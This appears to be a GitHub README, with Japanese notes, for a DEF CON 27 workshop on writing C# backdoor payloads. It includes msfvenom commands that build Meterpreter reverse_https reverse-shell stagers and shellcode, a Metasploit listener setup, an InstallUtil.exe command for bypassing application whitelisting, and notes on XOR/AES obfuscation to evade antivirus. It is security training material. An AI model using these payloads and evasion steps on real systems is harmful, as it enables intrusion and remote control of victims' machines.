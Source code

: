 # Writing custom backdoor payloads with C#

This workshop aims to provide attendees hands-on experience on writing custom backdoor payloads using C# for the most common command and control frameworks including Metasploit, Powershell Empire and Cobalt Strike. The workshop consists in 8 lab exercises; each of the exercises goes over a different technique that leverages C# and .NET capabilities to obtain a reverse shell on a victim Windows host. The covered techniques include raw shellcode injection, process injection, process hollowing, runtime compilation, parent pid spoofing, antivirus bypassing, etc. At the end of this workshop attendees will have a clear understanding of these techniques both from an attack and defense perspective.

**Skill Level**: Intermediate

**Prerequisites**: Basic to intermediate programming/scripting skills. Prior experience with C# helps but not required.

**Materials**: Laptop with virtualization software. A Windows 10 virtual machine and a Kali Linux Virtual Machine.

The "Writing custom back payloads with C#" workshop was first presented at [Defcon 27](https://www.defcon.org/html/defcon-27/dc-27-workshops.html#velazco). 

## Authors

* **Mauricio Velazco** - [@mvelazco](https://twitter.com/mvelazco)

* **Olindo Verrillo** - [@olindoverrillo](https://twitter.com/olindoverrillo)

## Labs

### Lab 1 : Hello World

The goal of this lab is to implement the typical Hello World example with C#. The first exercise uses .NETs Console class to print “Hello World” while the second uses .NETs Platform Invocation Services feature to import and call the Win32 Api MessageBox.

### Lab 2 : Custom Meterpreter Stager

The goal of this lab is to write a custom Meterpreter stager with C# by leveraging the WebClient class to download meterpreter’s second stage and Win32 API functions to copy the second stage in memory and execute it.

```bash
#Run msfconsole and setup a listener:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST [YOUR_IP]
set LPORT 8080

#Create stager by msfvenom
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=Your_Kali_IP LPORT=8080
-f exe > ~/reverse.exe
#twistd3とかでこのmalwareが送信するランダムなURLを確認する
```
確認したランダムなURLで[2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab2/2.cs#L30) の箇所をUpdateする

### Lab 3 : Raw Shellcode Injection

The goal of this lab is to write a custom binary that injects a pre-defined shellcode into memory and executes it. Metasploit’s msfvenom will be used to generate the shellcode and the same Win32 API calls used in Lab 2 will be used to perform the execution.

```bash
#sample
msfvenom -a x64 -p windows/x64/messagebox Text="Hello from shellcode !" -f csharp
#generate shellcode for c#
msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=8080 -f csharp

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 674 bytes
Final size of csharp file: 3446 bytes
byte[] buf = new byte[674] {
0xfc,0x48,0x83...
```
Inject to source code([1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab3/1.cs#L30))

#### Bypassing Application Whitelisting ([2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/master/Labs/lab3/2.cs))
##### living off the land and is used by attackers to circumvent controls and avoid detection.
```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe 2.cs
#Now for the bypass, we can execute the following command to get InstallUtil.exe to run our assembly, instead of launching it directly
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile=
/LogToConsole=false /U 2.exe
#we can abuse InstallUtil.exe and get it to run our code. This way we can bypass application whitelisting technologies and look less suspicious to an analyst.
```
##### Bypssing Applocker
https://jpn.nec.com/cybersecurity/blog/220916/index.html

### Lab 4 : Shellcode Obfuscation

The goal of this lab is to reduce detection of the custom payloads by signature based anti-malware. We can achieve this by obfuscating the shellcode generated by msfvenom using two common techniques: XOR and AES
- [1.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/1.cs#L28): でLab3のshellcodeをpasteし、xorしたやつを出力。keyはABCDE。
- [2.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/2.cs#L47): にそのxorしたやつをpaste,compile,実行。C2へアクセスが成功する。
- [3.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/3.cs#L14)上のやつのAES版。lab3の生のshellcodeをpaste。AES暗号化されたやつが出力される。先に表示されるやつが暗号化されたcode
- [4.cs](https://github.com/DharmaDoll/defcon27_csharp_workshop/blob/56a29e8fc1288a70bd0fbdd558014f9bf7396252/Labs/lab4/4.cs#L38) にその暗号化したやつをpaste,compile,実行。C2へアクセスが成功する。
>

### Lab 5 : PowerShell without PowerShell.exe

The goal of this lab is to execute a Powershell script and avoid to use the powershell.exe binary by leveraging the .NET framework and C#. Using this technique, we will get a Powershell Empire agent.  

### Lab 6 : DLL Injection

The goal of this lab is to implement the DLL Injection technique using C# and obtain a reverse shell from a victim host. Using 3 different exercises, we will understand and implement the different steps for a successful injection.

### Lab 7 : Process Hollowing

The goal of this lab is to understand and implement the Process Hollowing technique using C# technique to obtain a reverse shell on a victim host. 

### Lab 8 : Parent Process Spoofing

The goal of the final lab is to leverage C# to spawn a new process spoofing its parent process and inject shellcode to it to obtain a reverse shell.

## Acknowledgments

Most of the labs on this workshop started from a Github repository/gist, a Stack Overflow code snippet or a Google search. Thank you to everyone who shares code for others to learn from.

* https://github.com/pwndizzle/c-sharp-memory-injection
* http://www.codingvision.net/miscellaneous/c-inject-a-dll-into-a-process-w-createremotethread
* https://github.com/re4lity/subTee-gits-backups
* https://www.codeproject.com/Articles/769741/Csharp-AES-bits-Encryption-Library-with-Salt
* https://gist.github.com/Arno0x/7f34e869cc847e088d3e107632e18294
* https://github.com/leoloobeek/csharp/blob/master/ExecutionTesting.cs



